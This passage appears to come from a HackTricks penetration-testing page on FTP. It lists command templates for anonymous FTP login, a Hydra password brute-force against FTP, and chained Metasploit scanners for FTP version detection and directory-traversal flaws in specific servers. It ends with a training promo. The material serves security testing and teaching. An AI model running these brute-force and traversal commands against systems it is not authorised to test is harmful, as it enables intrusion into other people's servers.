 ```
Note: ftp://anonymous:anonymous@{IP}

Entry_6:
Name: Hydra Brute Force
Description: Need Username
Command: hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp

Entry_7:
Name: consolesless mfs enumeration ftp
Description: FTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/ftp/anonymous; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/ftp_version; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/bison_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/colorado_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' &&  msfconsole -q -x 'use auxiliary/scanner/ftp/titanftp_xcrc_traversal; set RHOSTS {IP}; set RPORT 21; run; exit'
```
<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
